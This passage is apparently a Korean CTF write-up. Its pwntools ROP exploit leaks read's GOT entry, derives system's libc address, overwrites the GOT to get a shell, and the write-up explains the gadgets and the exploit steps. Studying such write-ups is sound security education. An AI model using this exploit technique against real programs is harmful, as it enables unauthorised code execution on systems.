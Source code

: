 ```

payload += p64(pop_rdi) + p64(0x1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0)
payload += p64(write_plt)

# read(0, read_got, ...)

payload += p64(pop_rdi) + p64(0x0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0)
payload += p64(read_plt)

# read('/bin/sh') == system('/bin/sh')

payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(read_plt)

p.sendafter(b'Buf: ', payload)

read = p.recvn(8)
system = u64(read) - read_system_offset

# read = p.recv(6)
# system = u64(read + b'\x00\x00') - read_system_offset

p.send(p64(system) + b'/bin/sh\x00')
p.interactive()
```

## GOT Overwrite 및 "/bin/sh" 입력 과정 참고 설명

"/bin/sh"은 덮어쓸 GOT 엔트리의 바로 뒤 메모리 주소에 위치시키도록 GOT엔트리 뒤에 같이 입력하면 된다. 이 바이너리에서 입력을 위해 `read` 함수를 사용하는데, 해당 함수는 `rdi, rsi, rdx` 세 개의 인자를 사용한다.

앞의 두 인자는 `pop rdi; ret`과 `pop rsi; pop r15; ret` 가젯으로 쉽게 설정할 수 있지만, `pop rdx`와 관련된 가젯은 일반적인 바이너리에서 거의 찾기 힘들다. (`pop r15`는 `pop rsi`를 위해 어쩔 수 없이 붙어있는 가젯으로 `r15`에는 그냥 0을 대입하도록 세팅해줌)

이럴 때는 `libc`의 코드 가젯이나 `libc_csu_init` 가젯을 사용하여 문제를 해결할 수 있다. 또는 `rdx` 값을 변화시키기 위해 다른 함수를 간접적으로 호출해서 값을 설정할 수도 있는데,   
예를 들어 `strncmp` 함수는 `rax`로 비교의 결과를 반환하고, `rdx`로 두 문자열의 첫 번째 문자부터 가장 긴 부분 문자열의 길이를 반환한다. 여기에 간접적으로, `rdx`에 넣기 원하는 값을 대입해서 사용할 수도 있다.

해당 문제에서는 `read` 함수의 GOT를 읽은 뒤 `rdx`에 어느정도 큰 값이 설정되어 있기 때문에, 따로 `rdx` 값을 설정하는 가젯을 추가하지 않았지만, 좀 더 reliable한 익스플로잇을 위해서는 가젯을 추가해주는 것이 좋다.

***해당 문제의 전체 익스플로잇 과정을 정리해보면,***

1. 카나리 우회

2. `write(1, read_got, ...)`을 통해 resolve된 `read` 함수의 got 값을 출력하기.

3. 출력한 `read_got` 값과 `libc`의 `system`함수와의 오프셋을 이용하여 `system_got` 값을 구하기

4. `read(0, read_got, ...)`을 통해서 앞에서 구한 `system_got`값에 연속적으로 `/bin/sh` 문자열을 `read` 함수의 `STDIN(fd = 0)` 입력으로 보내서 `read_got`를 **Overwrite**하기  
이후 `p.send(p64(system) + b'/bin/sh\x00')`으로 입력이 끝나면 calling convention에 따라 rip가 바로 다음 실행 순서에 따라 아래 스택의 instruction으로 이동
